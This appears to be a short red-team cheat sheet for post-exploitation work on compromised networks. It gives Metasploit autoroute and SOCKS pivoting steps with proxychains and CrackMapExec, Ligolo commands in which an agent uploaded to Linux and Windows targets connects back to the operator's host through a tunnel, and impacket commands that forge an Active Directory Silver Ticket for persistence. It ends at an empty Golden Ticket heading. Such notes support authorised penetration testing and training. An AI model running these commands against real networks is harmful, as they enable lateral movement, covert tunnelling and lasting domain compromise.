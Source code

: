 ## Pivoting

### Metasploit
```
msfconsole
> search autoroute
> use 0
> set session $
> run

> search socks
> use 0
> set srvport 9050
> run

$ proxychains -q cme smb .........
```

### Ligolo
Linux Host 
```bash
ip tuntap add user root mode tun ligolo
ip link set ligolo up
ip route add 192.168.110.0/24 dev ligolo
./proxy -laddr 0.0.0.0:53 -selfcert
```

Linux Target
```bash
# upload compiled agent
./agent -connect x.x.x.x:53 -ignore-cert &
```

Windows Target
```cmd
.\agent.exe -connect x.x.x.x:53 -ignore-cert
```

## Active Directory Persistence

### Silver Ticket
```bash
# Get Domain SID
impacket-lookupsid.py 'DOMAIN/USER:PASS@TargetIP'

# Remotely
impacket-ticketer.py -nthash <nt hash of computer account> -domain-sid <domain sid> -domain Domain.Local -sp domain/user USER
```

### Golden Ticket
